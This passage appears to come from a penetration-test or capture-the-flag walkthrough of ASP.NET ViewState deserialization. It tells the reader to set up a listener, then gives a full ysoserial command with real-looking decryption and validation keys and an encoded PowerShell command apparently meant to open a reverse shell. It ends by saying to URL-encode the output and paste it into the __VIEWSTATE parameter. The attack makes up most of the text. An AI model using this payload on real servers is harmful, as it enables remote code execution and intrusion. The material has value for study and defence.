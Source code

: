 
- Set up a listener

```powershell
.\ysoserial.exe -p ViewState -g TextFormattingRunProperties --path="/portfolio/default.aspx" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" -c "powershell.exe powershell -e JABjAGwAaQBlA…"
```

![image14](../resources/0b1ced63db2342e2805becff188d5577.png)

URL Encode and paste into \_\_VIEWSTATE=

